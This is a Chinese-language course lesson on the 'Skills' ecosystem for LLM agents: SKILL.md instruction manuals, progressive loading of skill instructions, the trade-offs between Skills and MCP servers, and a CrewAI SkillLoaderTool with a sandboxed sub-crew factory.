






# 16｜Skills生态：让Agent接入大量工具

> 来源：极客时间《企业级多智能体设计实战》
> 当前播放：16｜Skills生态：让Agent接入大量工具
> 提取日期：2026-06-02
> 原文长度：24309 字

---

欢迎回来！在上一节课，我们为 Agent 装上了真正的"王牌超能力"——AIO-Sandbox 沙盒环境赋予了它代码解释器和无头浏览器，让它能在安全隔离的环境里自主执行任务、抓取数据、操控浏览器。可以说，Agent 的"手脚"问题彻底解决了。

但一个新的问题接踵而至：工具有了，Agent 知道**怎么用**吗？

拿我们熟悉的文档处理场景举例。PDF 文件有很多坑：有些 PDF 有文字层可以直接提取，有些则是扫描图片需要 OCR；有些 PDF 有密码保护；有些中文内容直接用 `pypdf` 提取会乱码，需要特殊处理。这些"最佳实践"，Agent 并不天然知道——它只知道"我有 `sandbox_execute_code` 工具可以执行代码"，但它不知道"执行什么代码、按什么步骤执行，才是处理 PDF 的正确姿势"。

这就是本节课要解决的问题。**Skills** 的出现，就是为了让 Agent 不光能用工具，还能**按说明书用工具**。

---

## 一、 认知原点：Skills 的本质是什么？

先把一个可能的误区拿出来说清楚：**Skills 不是 API，不是 MCP Server，更不是某种插件格式。**


**Skills 的本质，是"给 LLM 读的结构化操作手册"。**

就像新员工入职，HR 会给他一本《操作手册》，里面写着"处理客户退款时，第一步先核实订单状态，第二步……"。Skills 就是面向 AI 的操作手册——告诉 Agent 在特定场景下，应该按照什么步骤、使用哪些工具、规避哪些陷阱来完成任务。

### Skills 的底层哲学：Bash is All You Need

理解这个设计之前，先看一个反直觉的事实：Claude Code 这样强大的 AI 编程工具，底层工具一共只有几个？不是几十个，不是几百个，就是这四个：

- read：读文件
- write：写文件
- edit：编辑文件
- bash：执行命令行

这背后的核心哲学叫做 **“Bash is All You Need”**——你不需要提前把所有能力封装成 API，只要给 Agent 提供 `bash` 执行权，它就可以即兴写代码完成任何任务。

这也是 Skills 和传统 MCP 工具最本质的区别：

- 传统 MCP 的思路：预先封装能力成 API → Agent 调用 → 执行
- Skills + Bash 的思路：把"怎么做"写成操作手册 → Agent 按手册自己写代码 → bash 执行

后者的优势在于灵活性：操作手册可以用自然语言描述"先检测文字层，再根据结果选择 pypdf 还是 OCR"这类业务判断逻辑，而 MCP 工具的 JSON Schema 里根本写不进去这种经验。代码不用预先封装好，遇到问题现场写，遇到 bug 现场调——这就是为什么 Skills 能让 Agent 处理任何 MCP 无法预先穷举的长尾场景。

一个完整的 Skill 包含以下组成部分：

```plain
skill-name/
├── SKILL.md        # 核心：操作说明书
│                   #   YAML frontmatter：name、description（元数据，供主 Agent 决策）
│                   #   Markdown 正文：详细操作步骤、CRITICAL/NEVER/ALWAYS 规则
├── scripts/        # 可执行脚本（Python/Node.js/Bash）
├── references/     # 参考文档（可选，如算法说明、格式规范）
└── assets/         # 静态资源（可选，如模板文件）
```

其中 `SKILL.md` 是灵魂所在。它的 YAML frontmatter 是写给"决策层"看的——主 Agent 靠它来判断"我遇到什么场景该用哪个 Skill"；Markdown 正文是写给"执行层"看的——Skill Agent 靠它来知道"具体怎么做、哪些事绝对不能做"。

我们来看一段真实的 PDF Skill 的 `SKILL.md` 片段（来自 Anthropic 官方 Skills 仓库）：

```markdown
---
name: pdf
description: >
  Extract text, images, tables, and metadata from PDF files. Handles
  encrypted PDFs, scanned documents (via OCR), and complex layouts.
  Use this skill whenever you need to process or read content from a
  PDF file.
---
 
# PDF 处理操作手册
 
## 核心步骤
 
1. ** 检测文字层 **：先运行 `pdfinfo` 检查 PDF 是否包含可直接提取的文字层
2. ** 分支处理 **：
   - 有文字层 → 使用 `pypdf` 直接提取
   - 无文字层（扫描件）→ 使用 `pytesseract` OCR 识别
 
## CRITICAL
 
- NEVER 在没有检测文字层的情况下直接调用 OCR，这会浪费时间并可能引入噪音
- ALWAYS 先检查 PDF 是否有密码保护，有则请求用户提供密码
```

看到了吗？SKILL.md 正文里的 `CRITICAL`、`NEVER`、`ALWAYS` 这些 callout 标记，把人类专家积累的踩坑经验直接编码成了 AI 可理解的规则。这是普通 MCP 工具做不到的事。

### 两种类型的 Skill

Skills 按执行方式分为两类，这个区分很重要，它决定了整个执行架构：





参考型 Skill 轻量，直接告诉主 Agent"按这个规范来做"；任务型 Skill 重量，需要调动沙盒工具真正执行代码——这正是第 15 课 AIO-Sandbox 大展身手的地方。

---

## 二、 为什么需要 Skills：Agent 的三大认知困境

在理解 Skills 的价值之前，先想象一下没有 Skills 的世界是什么样的。

**困境一：上下文爆炸**

你想给 Agent 配备 20 种文档处理能力（PDF、Word、Excel、PPT、邮件…），就要把 20 份操作说明全部塞进 system prompt。每个说明书动辄几百行，20 个加起来直接撑爆上下文窗口。即使勉强塞进去，所有说明同时存在也会互相干扰，Agent 的注意力被稀释，执行质量严重下降。

**困境二：经验无法沉淀与复用**

A 团队的工程师花了两周时间摸清了公司内部 ERP 系统的报表生成规范，把最佳实践写进了 Agent 的 prompt。但这份"私域知识"只活在这个 prompt 字符串里，换一个 Agent、换一个团队，一切都要从头来过。人类的知识可以写进 Wiki 共享，但 AI 不能直接把 Wiki 变成"会操作"的能力。

**困境三：工具有了，但不会正确使用**

第 14 课讲的 MCP 协议非常强大，能让 Agent 一键接入各种外部工具。但 MCP 解决的是"Agent 能做什么"的问题，没有解决"Agent 知道怎么做才对"的问题。工具的调用文档（JSON Schema）只告诉 Agent 参数是什么，不告诉 Agent"先检测文字层再决定用哪种提取方式"这种业务经验。

---

## 三、 核心机制：渐进式披露（Progressive Disclosure）

解决"如何让 Agent 高效管理大量 Skills"的核心设计，就是**渐进式披露**。



这个名字来自 UX 设计领域，原意是"先展示概要，用户需要时再展示细节"。放到 Skills 管理里，它的逻辑是：

**第一阶段（系统启动，轻量加载）**：只读每个 `SKILL.md` 的 YAML frontmatter，提取 `name` 和 `description` 字段，构建成 XML 格式注入 `SkillLoaderTool` 的工具描述中。主 Agent 只需要知道"pdf Skill 用于处理 PDF 文件，docx Skill 用于处理 Word 文档"——决策信息足够了，Token 消耗极小。

**第二阶段（主 Agent 调用 Skill，按需加载）**：当主 Agent 决定要用某个 Skill 时，才读取该 Skill 的完整 `SKILL.md` 正文（几百行的操作手册）。把完整指令拼接上沙盒执行约束，注入到 Skill Agent 的 backstory 中，触发 Sub-Crew 在沙盒里执行任务。执行完毕，Sub-Crew 的上下文自动消亡（每次调用都是 `build_skill_crew()` 返回的全新 `Crew` 实例，执行完成后 Python 垃圾回收自动释放内存，不会在主 Agent 上下文里留下任何残留状态），主 Agent 只收到结构化的执行结果。

```plain
系统启动 ──→ SkillLoaderTool.__init__()
               │
               ├─ 只读各 SKILL.md 的 frontmatter（name + description）
               └─ 构建 XML 嵌入工具 description（轻量，所有 Skill 总计几百 tokens）
 
主 Agent 决策 ──→ 调用 skill_loader(skill_name="pdf", task_context="...")
                   │
                   ├─ 按需读取完整 SKILL.md 正文（几百行，只有这一个 Skill）
                   ├─ 拼接沙盒路径替换指令
                   ├─ 触发 Sub-Crew（PDF Skill Agent + 沙盒工具）
                   └─ 主 Agent 上下文干净，只收到 JSON 执行结果
```

这个设计的精妙之处在于：**无论 Skills 库里有多少个 Skill，系统的启动开销都是线性可控的，而主 Agent 的上下文在任何时候都只包含当前正在执行的那个 Skill 的详细指令。** Skills 库可以无限扩展，上下文永远不会爆炸。

---

## 四、 Skills 的核心价值：企业私域知识的 AI 化沉淀

Skills 真正打动我的一点，不是它能处理 PDF 或 Word，而是它背后的一个更大的命题：

**每家企业都积累了大量私域知识——内部系统的操作规范、业务流程的最佳路径、行业经验的隐性知识。** 这些知识过去只能靠老员工口口相传，或者写进 Wiki 让新人慢慢学。Skills 把这些私域知识变成了 AI 可以直接"理解并执行"的结构化指令包。



想象一个成熟的企业 Skills 生态：

- 法务团队写了一个 contract-review Skill，把合同审查的关键检查点和风险条款模式全编进去；全公司任何一个 Agent 都能直接用，执行出来的审查逻辑和法务专家的经验一致
- 运营团队写了一个 report-generation Skill，把月报的数据口径、格式要求、图表规范都固化下来；再也不用每次都在 prompt 里长篇大论地描述格式要求
- 安全团队写了一个 code-security-scan Skill，把公司的安全红线和常见漏洞模式编入规则；每次代码提交自动触发

这不是"用 AI 做个工具"，这是在建设一个**企业 AI 知识共享生态**——知识不再锁在个人脑子里，而是以 Skills 的形式沉淀、流通、进化。

### Skill 与 MCP：合作、竞争与不可替代

这是一个很多人容易忽视的微妙关系。Skills 与 MCP 不只是"合作伙伴"，它们之间同时存在竞争地带，也各有不可替代的领地。



**合作：知识层与能力层的天然分工**

在能力定位上，两者职责互补：

- MCP 解决"能力层"：Agent 通过 MCP 获得执行能力——运行代码、操作文件、调用 API。MCP 是 Agent 的"手和脚"。
- Skills 解决"知识层"：Agent 通过 Skills 获得操作经验——在什么场景用什么工具、按什么步骤操作、规避哪些陷阱。Skills 是 Agent 的"肌肉记忆"。

两者合用才是完整的执行体。还有一个工程红利：**Skill 让 Agent 彻底突破 MCP 工具 schema 的上下文限制。** 20 个 MCP 工具的 JSON Schema 全量注入可能占用数千 tokens；而 20 个 Skill 通过渐进式披露，启动时只注入一行描述，按需加载全文——Skills 库可以无限扩张，上下文永远干净。

**竞争：Skills 冲击了哪些 MCP 服务？**

Skills 的出现，对一类特定的 MCP 服务构成了直接挑战——**那些纯粹用来封装操作流程的"知识型" MCP 服务**。

以前，很多团队会为"如何处理 PDF"专门部署一个 MCP Server，对外暴露一个 `process_pdf` 工具——这个 Server 的核心价值，本质上就是把 PDF 处理的最佳实践封装进去。但有了 Skills，这个 MCP Server 存在的理由就值得重新评估：一个 `skills/pdf/SKILL.md` + `scripts/extract.py`，完全可以承担同样的职责，而且更轻量、更容易迭代、无需额外部署运维。

**判断标准很简单：如果一个 MCP 服务的核心价值是"告诉 Agent 怎么做"，那它很可能应该被重构成 Skill。**

**MCP 的不可替代之处：权限认证与安全隔离**

然而，MCP 在企业环境中有一道 Skills 无法逾越的护城河：**身份边界与安全基础设施**。

当你的场景涉及以下需求时，Skills 无法替代 MCP：

- 权限认证与多租户隔离：调用 Salesforce、Jira、GitHub 等第三方系统时，MCP Server 管理 OAuth 流程、API Key 轮换、多租户数据隔离（用户 A 的数据绝不泄露给用户 B）。Skills 被 Agent 直接执行，没有独立的身份边界，做不到这一层。
- 安全合规与审计追踪：MCP Server 可以有独立的网络策略、审计日志、速率限制，满足 SOC2、GDPR 等企业合规要求。Skills 在沙盒里虽有执行隔离，但无法提供细粒度的访问控制和全链路审计。
- 外部系统集成基础设施：数据库连接池管理、认证令牌刷新、速率限制——这些属于基础设施关切，是 MCP Server 的职责范围，不是操作说明书（Skills）该做的事。

一句话总结：**Skills 让"知识封装型" MCP 服务变得多余，但让涉及权限认证和安全隔离的 MCP 服务更凸显其不可替代性。** 好的架构师知道，哪些场景该用 Skill，哪些场景必须用 MCP。

---

## 五、 工程实战：构建 Skills 执行引擎

我们通过一个完整的演示场景来把上面的原理落地：将一份公司季度报告 PDF，提炼关键数据后，生成一份格式化的 Word 文档摘要。



```plain
用户请求：
"请将 ./workspace/data/quarterly_report.pdf 里的关键数据提炼出来，
生成一份格式规范的 Word 文档，保存到输出目录"
 
执行流程：
主 Agent（协调者）
  │
  ├─① 调用 skill_loader("pdf")     → PDF Sub-Crew 提取结构化内容
  │
  ├─② 主 Agent 理解内容，组装任务描述
  │
  └─③ 调用 skill_loader("docx")    → DOCX Sub-Crew 生成 Word 文档
```

>
> 💡 课程说明：本节代码已同步至 GitHub，地址：https://github.com/kid0317/crewai_mas_demo/blob/main/m2l16/m2l16_skills.py
>

### 第一步：Skills 生态的工程化组织

在写一行代码之前，先把 Skills 库的目录结构设计好——这是整个系统的"地基"。

```plain
code/crewai_mas_demo/
│
├── skills/                        # ⭐ 共享 Skills 资源（所有课程共用）
│   ├── load_skills.yaml           # Skill 清单（统一治理文件）
│   ├── pdf/
│   │   ├── SKILL.md               # PDF 处理说明书
│   │   └── reference.md           # 参考文档
│   └── docx/
│       └── SKILL.md               # Word 文档处理说明书
│
├── tools/                         # 共享工具
│   ├── skill_loader_tool.py       # ⭐ 核心：SkillLoaderTool
│   └── intermediate_tool.py       # 中间结果记录工具
│
└── m2l16/
    └── m2l16_skills.py            # 演示入口
```

`load_skills.yaml` 是 Skills 生态的核心治理文件。它不修改 Anthropic 官方的 `SKILL.md`，而是通过一个独立的清单来扩展语义：

```yaml
# 💡 核心点：type 字段区分两种执行方式，不改官方 SKILL.md 文件
skills:
  - name: pdf
    path: ./skills/pdf
    type: task          # 需要代码执行（pypdf/OCR）
    enabled: true
 
  - name: docx
    path: ./skills/docx
    type: task          # 需要代码执行（python-docx/LibreOffice）
    enabled: true
 
  # 参考型 Skill 示例（只注入上下文，不触发 Sub-Crew）
  # - name: brand-guidelines
  #   type: reference
  #   enabled: false
```

`enabled: false` 可以快速下线某个 Skill，无需删除文件；`type` 字段决定了执行路径，是整个架构分支的关键。

### 第二步：SkillLoaderTool —— 渐进式披露的核心实现

这是本课最核心的代码。`SkillLoaderTool` 实现了两件事：初始化时构建轻量描述，调用时按需执行。

>
> 💡 课程说明：核心代码地址：https://github.com/kid0317/crewai_mas_demo/blob/main/tools/skill_loader_tool.py
>

```python
from crewai.tools import BaseTool
from pydantic import BaseModel, Field, PrivateAttr, field_validator
import yaml, re, json, asyncio, concurrent.futures
from typing import Any, Union
from pathlib import Path
 
SKILLS_DIR = Path(__file__).parent.parent / "skills"
SANDBOX_SKILLS_MOUNT = "/mnt/skills"
 
 
class SkillLoaderInput(BaseModel):
    skill_name: str = Field(
        description="要加载的 Skill 名称，必须严格来自工具描述 XML 列表中的 <name> 值"
    )
    task_context: str = Field(
        default="",
        description=(
            "如果是参考型 Skill，此项为空。\n"
            "如果是任务型 Skill，此项为完整的子任务描述，必须包含：\n"
            "1. 子任务概要描述\n"
            "2. 预期输出的 JSON schema（必须包含 errcode 和 errmsg 字段，"
            "errcode=0 表示成功，非 0 表示失败，失败时 errmsg 需包含错误信息和建议解决方案）\n"
            "3. 输入文件沙盒绝对路径（本地 ./workspace/data/ 挂载为沙盒 /workspace/data/）\n"
            "4. 输出文件路径（必须在沙盒 /workspace/output/ 目录下）"
        ),
    )
 
    # 💡 核心点：LLM 常传 dict/list，此处统一转为字符串，避免 Pydantic 校验失败
    @field_validator("task_context", mode="before")
    @classmethod
    def task_context_to_str(cls, v: Union[str, dict, list, None]) -> str:
        if v is None:
            return ""
        if isinstance(v, str):
            return v
        if isinstance(v, (dict, list)):
            return json.dumps(v, ensure_ascii=False)
        return str(v)
 
 
class SkillLoaderTool(BaseTool):
    name: str = "skill_loader"
    description: str = ""         # 在 __init__ 中动态构建
    args_schema: type[BaseModel] = SkillLoaderInput
 
    # 💡 核心点：用 PrivateAttr 声明实例变量
    # 如果直接写 _skill_registry: dict = {}，Pydantic 会把它当作类级共享字段
    # 或者直接报 "unexpected keyword argument" 错误
    _skill_registry: dict[str, Any] = PrivateAttr(default_factory=dict)
    _instruction_cache: dict[str, Any] = PrivateAttr(default_factory=dict)
 
    def __init__(self):
        super().__init__()
        self._skill_registry = {}
        self._instruction_cache = {}
        self._build_description()   # ← 渐进式披露第一阶段：解析 frontmatter，构建轻量描述
 
    def _build_description(self):
        """读取清单 → 解析各 SKILL.md 的 frontmatter → 构建 XML 注入工具 description"""
        manifest_path = SKILLS_DIR / "load_skills.yaml"
        with open(manifest_path) as f:
            manifest = yaml.safe_load(f)
 
        xml_parts = ["<available_skills>"]
        for skill_conf in manifest["skills"]:
            if not skill_conf.get("enabled", True):
                continue
            name = skill_conf["name"]
            skill_type = skill_conf.get("type", "task")
            skill_path = SKILLS_DIR / name
 
            skill_md = (skill_path / "SKILL.md").read_text()
            desc = self._extract_frontmatter_description(skill_md)
 
            self._skill_registry[name] = {"type": skill_type, "path": skill_path}
            xml_parts.append(
                f"  <skill>\n"
                f"    <name>{name}</name>\n"
                f"    <type>{skill_type}</type>\n"
                f"    <description>{desc}</description>\n"
                f"  </skill>"
            )
        xml_parts.append("</available_skills>")
 
        # 💡 核心点：约束放在 SkillLoaderInput.task_context 的 Field description 里
        # 工具 description 只展示 Skill 能力清单，不塞规则，保持干净
        self.description = (
            "当任务涉及文档处理（PDF 读取、Word 生成、Excel 分析等）时调用此工具。\n"
            "根据下方 XML 列表选择正确的 skill_name，在 task_context 中提供完整任务信息。\n\n"
            + "\n".join(xml_parts)
        )
 
    def _extract_frontmatter_description(self, content: str) -> str:
        match = re.match(r"^---\n(.*?)\n---", content, re.DOTALL)
        if not match:
            return ""
        front = yaml.safe_load(match.group(1))
        desc = front.get("description", "")
        # 💡 核心点：强制截断到 200 字，逼迫 Skill 作者提炼核心描述
        return desc[:200] + "..." if len(desc) > 200 else desc
 
    def _get_skill_instructions(self, skill_name: str) -> str:
        """渐进式披露第二阶段：读完整 SKILL.md，剥 frontmatter，拼接沙盒执行指令"""
        if skill_name in self._instruction_cache:
            return self._instruction_cache[skill_name]
 
        skill_path = self._skill_registry[skill_name]["path"]
        content = (skill_path / "SKILL.md").read_text()
        # 剥离 frontmatter，只保留操作指令正文
        stripped = re.sub(r"^---\n.*?\n---\n", "", content, flags=re.DOTALL)
 
        # 拼接沙盒路径约束（硬编码路径，消灭 LLM 路径幻觉）
        sandbox_directive = (
            f"\n\n<sandbox_execution_directive>\n"
            f"【强制约束】所有操作必须在 AIO-Sandbox 中执行，禁止操作本地文件系统。\n"
            f"此 Skill 的脚本资源已挂载至沙盒：{SANDBOX_SKILLS_MOUNT}/{skill_name}/\n"
            f"执行示例：sandbox_bash('python {SANDBOX_SKILLS_MOUNT}/{skill_name}/scripts/extract.py ...')\n"
            f"遇到依赖缺失：先 sandbox_bash('pip install xxx') 再重试。\n"
            f"</sandbox_execution_directive>"
        )
 
        result = stripped + sandbox_directive
        self._instruction_cache[skill_name] = result
        return result
 
    async def _execute_skill_async(self, skill_name: str, task_context: str) -> str:
        skill_info = self._skill_registry[skill_name]
        instructions = self._get_skill_instructions(skill_name)
 
        if skill_info["type"] == "reference":
            # 参考型：直接返回指令文本，注入主 Agent 上下文
            return f"<skill_instructions>\n{instructions}\n</skill_instructions>"
 
        # 任务型：触发独立 Sub-Crew，await 异步执行
        crew = build_skill_crew(skill_name=skill_name, skill_instructions=instructions)
        result = await crew.akickoff(inputs={"task_context": task_context, "skill_name": skill_name})
        return str(result)
 
    # ── 异步路径（FastAPI / akickoff 调用链的主路径）──────────────────────
    async def _arun(self, skill_name: str, task_context: str) -> str:
        """💡 核心点：FastAPI 异步调用链里，直接 await Sub-Crew，零阻塞"""
        if skill_name not in self._skill_registry:
            return f"错误：未找到 Skill '{skill_name}'，可用：{list(self._skill_registry.keys())}"
        return await self._execute_skill_async(skill_name, task_context)
 
    # ── 同步路径（脚本 / 测试场景的 fallback）────────────────────────────────
    def _run(self, skill_name: str, task_context: str) -> str:
        """💡 核心点：ThreadPoolExecutor 在新线程里运行独立 event loop
        规避 'cannot run nested event loop' 错误"""
        if skill_name not in self._skill_registry:
            return f"错误：未找到 Skill '{skill_name}'，可用：{list(self._skill_registry.keys())}"
        with concurrent.futures.ThreadPoolExecutor(max_workers=1) as pool:
            future = pool.submit(asyncio.run, self._execute_skill_async(skill_name, task_context))
            return future.result()
```

代码有几个值得细看的设计决策：

- PrivateAttr的用法：Pydantic V2 对继承自 BaseModel 的类有严格的字段管理，如果你把 _skill_registry 写成普通类属性，会被所有实例共享（类级缓存），或者直接报 Pydantic 校验错误。用 PrivateAttr 声明，Pydantic 就把它当作普通的实例属性处理。
- field_validator的用法：LLM 生成 function call 时，task_context 字段有时会传来一个 JSON 对象而非字符串。加上 mode="before" 的 validator，在 Pydantic 校验之前就统一转换，避免 type validation error 导致工具调用失败。
- 约束放在 Field description，不在 backstory：task_context 参数描述里的五条约束，会被序列化进工具的 JSON Schema，LLM 生成 function call 时直接看到，比放在 Agent backstory 里更精准、不会被稀释。这是第 13 课"参数描述工程"的直接落地。

### 第三步：Sub-Crew 工厂——任务型 Skill 的执行引擎

任务型 Skill 的执行，靠的是为每个 Skill 单独创建一个 Sub-Crew。注意这里用到了第 8 课讲过的"工厂模式"：

```python
from crewai import Agent, Task, Crew, Process
from crewai.mcp import MCPServerHTTP
from crewai.mcp.filters import create_static_tool_filter
 
SANDBOX_MCP_URL = "http://localhost:8022/mcp"
 
# 💡 核心点：白名单过滤，最小权限原则
# 沙盒暴露了 33 个 MCP 工具，Skill Agent 只能看到这 4 个，其余完全不可见
SANDBOX_TOOL_FILTER = create_static_tool_filter(
    allowed_tool_names=[
        "sandbox_execute_bash",       # Shell 命令执行
        "sandbox_execute_code",       # Python/JS 代码直接执行
        "sandbox_file_operations",    # 文件读写（read/write/list/find）
        "sandbox_str_replace_editor", # 兼容 Anthropic str_replace 的文件编辑
    ]
)
 
 
def build_skill_crew(skill_name: str, skill_instructions: str) -> Crew:
    """
    💡 核心点：工厂函数，每次调用返回全新实例
    不能复用同一个 Crew 实例处理不同任务——上一次执行的 Task 状态会污染下一次
    """
    sandbox_mcp = MCPServerHTTP(
        url=SANDBOX_MCP_URL,
        tool_filter=SANDBOX_TOOL_FILTER,
    )
 
    skill_agent = Agent(
        role=f"{skill_name.upper()} Skill 执行专家",
        goal=f"严格按照 {skill_name} Skill 的操作规范，在 AIO-Sandbox 中完成任务",
        backstory=(
            f"你是一位专精于 {skill_name} 文件处理的 AI 专家。\n"
            f"你掌握以下操作规范，请严格遵循：\n\n"
            f"{skill_instructions}"   # ← 完整 SKILL.md 正文在此注入
        ),
        mcps=[sandbox_mcp],           # 💡 核心点：CrewAI 原生 MCP 接入，框架自动转换工具
        max_iter=10,
        verbose=True,
    )
 
    skill_task = Task(
        description=(
            "根据以下任务要求，使用 Skill 操作规范完成任务。\n\n"
            "任务要求：\n{task_context}\n\n"
            "执行约束：\n"
            "1. 所有操作必须在沙盒中执行（挂载：./workspace/data:/workspace/data:ro，"
            "./workspace/output:/workspace/output:rw）\n"
            "2. 输入文件必须在 /workspace/data/ 下，输出必须写到 /workspace/output/ 下\n"
            "3. 遇到依赖缺失，先在沙盒内安装再继续"
        ),
        expected_output="按照任务要求中 JSON schema 格式的结构化执行结果（含 errcode 和 errmsg）",
        agent=skill_agent,
    )
 
    return Crew(
        agents=[skill_agent],
        tasks=[skill_task],
        process=Process.sequential,
        verbose=True,
    )
```

